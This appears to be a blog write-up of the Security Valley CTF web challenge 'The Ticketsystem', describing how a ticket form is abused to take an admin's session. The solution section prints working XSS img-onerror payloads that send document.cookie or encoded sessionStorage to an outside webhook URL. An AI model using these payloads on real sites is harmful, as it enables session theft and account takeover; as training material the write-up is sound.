 ```yaml
---
date: 2023-07-31 18:50:22 +02:00
categories: [SecurityValley, Web]
tags: [Web, CTF, SecurityValley]
---
```

This is a writeup of the web challenge The Ticketsystem from the [Security Valley](https://ctf.securityvalley.org) CTF
#### Level: 3, Score: 40
# Premise
Our IT department has released a new web based support system. Every user can now create a ticket if she/he needs help. Is that awesome?! And the admins have promised to check every ticket super fast. So don't forget: everybody trust the admin! And the admin trust you! Is that a mistake in the end? Please login with username 'ticket' and password '!H3LP-CNTR90' to create a ticket. Please not: the ticket-system is recreating every hour.

**Link:** [https://ctf.securityvalley.org/tfe](https://ctf.securityvalley.org/tfe)
## Challenge links:

**Link:** [https://ctf.securityvalley.org/tfe](https://ctf.securityvalley.org/tfe)

# Observations
If we start out by looking at the login page we get redirectd too, we can open our browsers network tab and find the login document. 

As we can see in the challenge description, we have a set of credentials, from which we can login to the page. 

Once logged in, we can create a ticket, when we do so, we get a prompt to wait 5 to 10 seconds and a`Ticket id`.

![ticket submitted](/assets/images/ticketsys_inputbox.png)

Attempting to navigate to the ticket using the ID yields no result. 

If we look at the page source and go to the debugger and look at the contents of the `main.js` file there. If we search the word `admin`, we find that there is a path labled `'admin/id'`, meaning that we can navigate to our ticket (if we were an admin user).

(Navigations outside the first 3 in the array will redirect to the /login page)

![page visable to admin](/assets/images/ticketsys_page_vis_to_adm.png)

Looking in our session storage, we also find that we have a [JWT](https://jwt.io/) session token.
![JWT token](/assets/images/ticketsys_jwt.png)

Decoding this contains the following:
![decoded JWT](/assets/images/ticketsys_jwt_decoded.png)

Looking at the response headers, we get an interesting bit of information. 

The [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) will upgrade insecure requests, it only trusts connections from itself (connect-src), an assets link, but most importantly, it has its img-src set to *, meaning that it will accept images from anywhere, lets keep this in mind for later.
![response headers](/assets/images/ticketsys_response_header.png)


# Solution
If we had a secret key, we could attempt to forge a fake admin key. 
Since we do not, a different approach is required, we're going to attempt to steal the admins session cookie.

We can do this since we know the admin uses a machine that will allow us to steal a session cookie, since the challenge states that the admin views the ticket, so if we can get some form of code execution on the admins machine, we should be able to steal a admin JWT token.

If we look at [WebHacking101](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) we find the 4th example:

`<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">`
 
As previously mentioned, the page will accept any image source, so we exploit this.

However, we want to modify the destination of the token, and we can do this with the site [webhook.site](https://webhook.site/).
For my instance here, my hook was `https://webhook.site/f6263527-fb76-45d7-b8b8-f484a0554ecf`, (note that the autogenerated ID varies), making this the page my attack "phones home" to:
`<img src=x onerror="this.src='https://webhook.site/f6263527-fb76-45d7-b8b8-f484a0554ecf/?'+document.cookie; this.removeAttribute('onerror');">`

This gave us no result, but if we tweak the exploit string a bit, so if we actually attempt to pass the session storage, we get the following exploit string:
`<img  src=x  onerror="this.src='https://webhook.site/f6263527-fb76-45d7-b8b8-f484a0554ecf?session='+btoa(JSON.stringify(sessionStorage)); this.removeAttribute('onerror');">`
**ba9abf7e-bfb1-4655-9346-73a7dd1648a1**
Which gives us:
![response headers](/assets/images/ticketsys_webhook.png)

Decoding this token (in CyberChef) gives us:
![admin token b64 decode](/assets/images/ticketsys_decoded_admin.png)

We can now change our current session storage to our newly obtained admin credentials
![admin credentials](/assets/images/ticketsys_changed_to_admin_creds.png)

If we now navigate to the previously found page (/admin/[TICKET ID]), we can view the following window:
![flag](/assets/images/ticketsys_flag.png)

Containing the name of our ticket, our command and most importantly, the flag.
# Tools and sources used:
 - [Webhook.site](https://webhook.site/)
 - [WebHacking101](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
 - [CyberChef](https://gchq.github.io/CyberChef)
